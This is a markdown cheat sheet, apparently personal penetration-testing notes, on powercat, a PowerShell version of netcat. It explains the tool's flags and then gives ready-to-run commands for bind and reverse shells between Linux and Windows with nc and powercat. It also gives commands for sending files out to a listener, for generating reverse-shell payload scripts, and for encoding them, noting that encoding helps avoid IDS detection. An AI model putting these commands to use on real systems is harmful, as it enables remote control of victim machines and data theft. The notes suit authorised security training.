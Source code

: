 

[Powershell](PowerShell.md) version of [netcat](Tools.md#netcat). Script can be downloaded to Windows host that leverages the strength of PowerShell while simplifying creation of bind/ reverse bind shells.  
  
  
Installation of [powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)
```bash
apt install powercat
```
	on Linux adds the script to _/usr/share/windows-resources/powercat_  
  

**-c** _ip_ - Client connection to given _ip_  
**-d** - Disconnect  
**-e** _process_ - Execute given process  
**-ep** - Start a pseudo powershell session. Can declare variables and execute commands, but if you try to enter a new shell (nslookup, netsh, cmd, etc), it'll hang.  
**-i** - Provide data to be sent down the pipe as soon as a connection is established. Used for moving files. You can provide the path to a file, a byte array object, or a string.  
You can also pipe any of those into powercat:
```bash
'aaaaaa' | powercat -c 10.1.1.1 -p 80
```

**-g** - Generate payload. Returns a script as a string which will execute the powercat w/ the options specified. (**-i**, **-d**, and **-rep** won't be incorporated)  
**-ge** - Generate encoded payload. Same as **-g**, but returns string which can be executed with
```powershell
powershell -E <encoded string>
```
 
**-l** - Listen mode  
**-of** - Output file  
**-p** _port_ - Specify _port_  
**-r** _string_ - Relay network traffic between two nodes  
Client Relay Format:
```bash
-r <protocol>:<ip>:<port>
```

Client Listener Format:
```bash
-r <protocol>:<port>
```
 
DNSCat2 Format:
```bash
-r dns:<dns server>:<dns port>:<domain>
```
  
**-rep** - Repeater. Powercat will automatically restart once disconnected. Used for setting up a persistent server  
**-h** - Help  
  
  
###### File Transfer
to: 
```bash
sudo nc -lvnp 443 > <received_file.ps1>
```

from:  
```powershell
. .\powercat.ps1  
powercat -c <ip> -p 443 -i C:\Users\<path_to_file.ps1>
```  
	Note: There's no indication that the file transferred  



###### Bind Shell:
  
Linux = Victim; Win = Attacker  
```bash
nc -nlvp 443 -e /bin/sh
```
```powershell
powercat -c <ip> -p 443
```


Win = Victim; Linux = Attacker  
```powershell
powercat -l -p 443 -e cmd.exe
```
```bash
nc <ip> 443
```
  

  
###### Reverse Shell:  
  
Linux = Victim; Win = Attacker  
```bash
nc <ip> 443 -e /bin/sh
```
```powershell
powercat -l -p 443
```


Win = Victim; Linux = Attacker  
```powershell
powercat -c <ip> -p 443 -e cmd.exe
```
```bash
nc -nlvp 443
```

  
  
###### Payloads:  
Set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user.  
  
```powershell
powercat -c <ip> -p 443 -e cmd.exe -g > reverseshell.ps1
```

Note: Stand-alone payloads like this one might be easily detected by IDS.  
Specifically, the script that is generated is rather large with roughly 300 lines of code and contains a number of hardcoded strings that can easily be used in signatures for malicious activity.  
Plaintext malicious code such as this will likely have a poor success rate and will likely be caught by defensive software solutions.  
  
  
###### Encrypted Payloads: 
```powershell
powercat -c <ip> -p 443 -e cmd.exe -ge > encryptedreverse.ps1
```

Run script w/  
```powershell
powershell -E (Get-Content 'myscript.ps1' -Raw)
```
